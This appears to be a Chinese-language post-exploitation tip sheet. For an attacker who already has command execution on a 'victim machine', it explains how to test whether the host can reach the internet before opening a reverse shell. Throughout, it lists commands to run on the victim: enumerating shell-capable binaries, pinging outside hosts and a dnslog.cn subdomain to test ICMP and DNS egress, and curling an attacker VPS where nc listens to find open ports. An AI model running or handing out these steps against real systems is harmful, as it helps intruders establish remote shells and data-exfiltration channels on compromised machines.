 ### 场景
拿到一个命令执行的口子后，想要反弹shell，需要先判断目标是否出网

### 解决
1、判断目标存在哪些反弹shell的命令
```
受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++
```
2、判断目标是否向外通icmp流量
```
方法1：
受害机上执行：ping -c 1 202.98.0.68>icmp.txt
受害机上执行：ls -alh
受害机上执行：cat icmp.txt

方法2：
VPS上执行：tcpdump -i eth0 -n -v icmp|grep -i "length 93"
受害机上执行：ping -s 65 -c 1 xx.xx.xx.xx
```
3、判断目标是否向外通dns流量
```
方法1：
受害机上执行：ping -c 1 www.baidu.com>dns.txt
受害机上执行：ls -alh
受害机上执行：cat dns.txt

方法2：
反连平台dnslog.cn上生成一个子域名
受害机上执行：ping xx.dnslog.cn
查看反连平台

查看一下/etc/resolv.conf及/etc/hosts

经测试，想要修改hosts，如下使用sudo是不行的：
sudo echo "127.0.0.2 www.baidu.com" >> /etc/hosts
只能是在root用户下执行，如下：
echo "127.0.0.2 www.baidu.com" >> /etc/hosts
```
3、判断目标向外通哪些端口
```
VPS上执行：nc -n -v -lp 3636
受害机上执行：curl http://xx.xx.xx.xx:3636
```
